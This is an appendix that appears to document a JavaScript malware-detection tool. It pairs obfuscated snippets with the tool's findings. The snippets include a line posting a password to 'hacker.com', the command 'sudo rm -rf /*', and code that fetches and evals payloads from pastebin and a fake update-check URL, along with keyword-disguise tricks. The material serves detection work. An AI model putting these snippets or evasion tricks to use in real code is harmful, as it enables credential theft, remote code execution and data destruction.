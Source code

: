 # Appendix

## 1 Keyword disguise
### 1.1 Concatenated String
```javascript
var url_part_1 = 'h' + 't' + 't' + 'p' // <--- disguised http keyword
var url_part_2 = ['api.github', '.com/repos'].join('')
var address = url_part_1 + url_part_2;
var r = http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result: 
```
- Found data exchange in:
http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

### 1.2 Encoded String
```javascript
var e = Buffer.from(e, "hex").toString()
var r = http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result:
```
- Found data exchange & encoded string in:
http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

## 2 Command Injection
### 2.1 Hardcoded code string

**Execute js code**

```javascript
eval('http.post("hacker.com", {"pwd": pwd})')
```
Result:
```
- Found powerful function in:
eval('http.post("hacker.com", {"pwd": pwd})')
```

**Execute shell command**
```javascript
exec('sudo rm -rf /*', (err, stdout, stderr) => {
});
```
Result:
```
- Found powerful function in:
exec('sudo rm -rf /*', (err, stdout, stderr) => {
})
```


### 2.2 Encoded code string
```javascript
var a = 'asdfbakl2347198ebfkjdasfae' // <--- malicious code
var decoded_a = Buffer.from(a, "hex").toString()
eval(decoded_a)
```
Result:
```
- Found powerful function & encoded string in:
eval(decoded_a)
```


### 2.3 Code from http response
**Plain string**
```javascript
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```
Result: 
```
- Found data exchange & powerful function in:
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```

**With Encoding**
```javascript
try {
    https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
```
Result: 
```
- Found data exchange & powerful function & encoded string in:
https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
    try {
        eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
    } catch (e) {}
}))
```

## 3 Name alias
```javascript
var o = http
function i(e, t, n) {
    e = 'http://google.com';
    var r = o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {});
}
```
Result:
```
- Found data exchange in:
o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {})
```
